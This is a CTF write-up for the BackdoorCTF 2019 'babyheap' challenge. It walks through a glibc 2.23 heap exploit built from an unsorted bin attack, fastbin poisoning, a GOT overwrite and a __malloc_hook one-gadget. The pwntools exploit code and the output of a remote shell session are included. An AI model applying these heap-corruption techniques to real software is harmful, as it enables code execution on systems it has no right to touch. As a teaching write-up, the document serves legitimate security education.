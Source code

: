 ```yaml
---
layout: post
title:  "BackdoorCTF 2019: babyheap"
date:   2019-10-27 23:30:01 +0800
categories: pwn
tags: BackdoorCTF
---
```


I played this CTF with 0x1 and got 9th place.

This was a Glibc 2.23 challenge with `global_max_fast` set to 0x10, meaning we have no access to the fastbin.

TL;DR:

1. Free a chunk into the unsorted bin
2. One byte brute force to overwrite the `bk` pointer of the free unsorted bin chunk to `&global_max_fast - 0x10`
3. Launch an unsorted bin attack to overwrite `global_max_fast` with the unsorted bin's address, giving us access to the fastbin.
4. Fastbin dup to get a chunk above the global array of chunks.
5. Overwrite index 0 of the global array of chunks to point to `free@got`.
6. Overwrite `free@got` with `printf@plt`.
7. Edit the chunk above the global array of chunks and set index 0 to point to `puts@got`.
8. Call `free` on index 0 to get `puts` libc leak.
9. Fastbin dup attack to overwrite `__malloc_hook` to one gadget and get shell.

### Challenge

**Points**: 286

>Just another babyheap challenge.
>
>[http://backdoor.static.beast.sdslabs.co/static/babyheap/babyheap](http://backdoor.static.beast.sdslabs.co/static/babyheap/babyheap)
>
>[http://backdoor.static.beast.sdslabs.co/static/babyheap/libc.so.6](http://backdoor.static.beast.sdslabs.co/static/babyheap/libc.so.6)
>
>`nc 51.158.118.84 17001`
>
>Flag format: CTF{...}
>
>Created by: [Nipun Gupta](https://backdoor.sdslabs.co/users/fs0ciety)
>
>No. of Correct Submissions: 12

### Solution

This challenge was very interesting. I've read writeups of similar challenges before but never done a challenge of this type, so this was a good learning experience for me.

#### Reverse Engineering

Running the binary shows us this:
```
----------DATA BANK----------
1) Add data
2) Edit data
3) Remove data
4) Exit
>> 
```

It looks very similar to babytcache, but without the ability to view data. It is also GLIBC 2.23. It also does not have PIE or Full RELRO enabled:
```sh
vagrant@ubuntu1604:/ctf/practice/backdoorctf/babyheap$ checksec babyheap
[*] '/ctf/practice/backdoorctf/babyheap/babyheap'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Looking at the binary now, the main function right at the beginning does the following:
```c
mallopt(1, 0);
```

If you look at the manpage of `mallopt`, you will see that this means that the binary is disabling the fastbin by setting `global_max_fast` to a value of 0x10. Since chunks must have a minimum size of 0x20 (with the metadata), the fastbin is impossible to use like this.

As for vulnerabilities, it is the exact same as babytcache except some constraints, so I will skip showing my interpretation of the pseudocode for each function.

1. The add function lets you add up to 12 chunks max throughout the process's lifetime.
2. The free function has a UAF. It also has a free limit of 8 frees.

#### Steps to solve

First, we must overwrite `global_max_fast` with some value that is not 0x10, so we can use the fastbins again. Since there is no easy way to get a leak, it will be almost impossible to launch a small bin unsafe unlink attack to overwrite anything useful.

Since we don't have a leak, the overwriting of `global_max_fast` required bruteforcing a single byte. If you add two chunks of size 0x30 and free the first one, you can compare the address of `global_max_fast` vs the address of the unsorted bin and see the following:
```c
pwndbg> unsortedbin
unsortedbin
all: 0x1c25000 —▸ 0x7f2e38f3bb78 (main_arena+88) ◂— 0x1c25000
pwndbg> p &global_max_fast 
$1 = (size_t *) 0x7f2e38f3d7f8 <global_max_fast>
```

You will notice that the least significant byte of `global_max_fast` is always `0xf8`, and the second least significant byte will constantly change. Everything else will be the same.

We can brute force the second byte and have a 1/8 chance of getting the address of `global_max_fast`.

I decided to launch an unsorted bin attack to overwrite `global_max_fast` with the address of the unsorted bin. If you are unfamiliar with the unsorted bin attack, you may refer to [this](https://github.com/shellphish/how2heap/blob/master/glibc_2.26/unsorted_bin_attack.c).

Essentially, I chose a chunk of size 0x30 to perform the unsorted bin attack on. Since it will corrupt the unsorted bin, it will mean we can't malloc any chunks <= 0x30 in size anymore, which is fine for us.

Here is how the 1 byte bruteforce works:
```python
while True:
	p = start()
	add(0, 0x30, 'A'*0x30) # Used for unsorted bin attack
	add(1, 0x68, 'B'*0x68) # Used for fastbin dup

	free(0) # Send chunk A to the unsorted bin

	# Overwrite A's bk with bruteforced &global_max_fast - 0x10
	edit(0, '\x00'*8 + p16(0x27e8))

	try:
		# Launch the unsorted bin attack
		add(2, 0x30, 'C'*0x30)

		# If the unsorted bin attack successfully overwrote global_max_fast,
		# Then we can do a fastbin poisoning attack to get a chunk right above the
		# global data array
		#
		# If we successfully get the chunk there, overwrite idx 0 with free@got
		free(1)
		edit(1, p64(0x6020cd-0x10))
		add(3, 0x68, 'Z'*8)
		add(4, 0x68, 'Z'*0x53 + p64(free_got))
		if args.GDB:
			debug([])
		break
	except:
		# If it didn't work, close the process and try again
		p.close()
		continue
```

Initially we free the 0x30 chunk into the unsorted bin and overwrite the last byte with 0xe8, and the second last byte with one of the many valid bytes I found `&global_max_fast` had with gdb. Then, within a **try-except** block, we launch the unsorted bin attack and then immediately try to do the fastbin poisoning attack. If the unsorted bin attack succeeded, then the fastbin attack will work, otherwise it will go to the **except** block and restart.

Should the fastbin attack succeed, we pick this memory address because it looks like a valid chunk header for a 0x68 sized chunk:
```c
pwndbg> x/4gx 0x6020cd-0x10
0x6020bd:       0xfff7dd2540000000      0x000000000000007f
0x6020cd:       0x0000000000000000      0x0000000000000000
```

We then simply write enough bytes until we reach the global data array and overwrite index 0 to the address of `free@got`.

If all of this succeeds, we will be out of the while loop now. My plan was to overwrite `free` with `printf` and use that to leak a libc address. Before I do that though, I free another 0x68 sized chunk into the fastbin to prepare for the second fastbin poisoning attack. I then overwrite `free@got` with the address of `printf@plt`, and change index 0 to point to `puts@got` and attempt to free index 0. This will cause printf to be called with the address stored in index 0, which is actually `puts@got`, giving us a leak:
```python
free(3) # Prep for next fastbin poisoning attack
edit(0, p64(printf)) # Overwrite free with printf
edit(4, 'Z'*0x53 + p64(0x602020)) # Change idx 0 to puts@got
free(0) # printf(puts@got)

libc.address = u64(p.recv(6).ljust(8, '\x00')) - libc.sym['puts']
log.info('Libc base: ' + hex(libc.address))
```

Finally, we do the classic fastbin poisoning attack to get a chunk at `__malloc_hook-0x30+0xd` and overwrite `__malloc_hook` with a working one gadget and get a shell:
```python
edit(3, p64(libc.sym['__malloc_hook']-0x30+0xd))

add(5, 0x68, 'Z'*8)
add(6, 0x68, 'B'*0x13 + p64(libc.address+0xf1147))

p.sendlineafter('>> ', '1')
p.sendlineafter(':\n', '8')
p.sendlineafter(':\n', '104')

p.interactive()
```

It took quite a bit of time to work remotely due to the brute force, so I just cut out the brute force bit.
```sh
vagrant@ubuntu1604:/ctf/practice/backdoorctf/babyheap$ ./exploit.py REMOTE
[*] '/ctf/practice/backdoorctf/babyheap/babyheap'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/ctf/practice/backdoorctf/babyheap/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
REMOTE PROCESS
[+] Opening connection to 51.158.118.84 on port 17001: Done
[*] Libc base: 0x7f9e95bcc000
[*] Switching to interactive mode
$ ls
Dockerfile
babyheap
babyheap.c
beast.toml
flag.txt
post-build.sh
public
setup.sh
$ cat flag.txt
CTF{REDACTEDREDACTEDREDACTED}
$ 
```
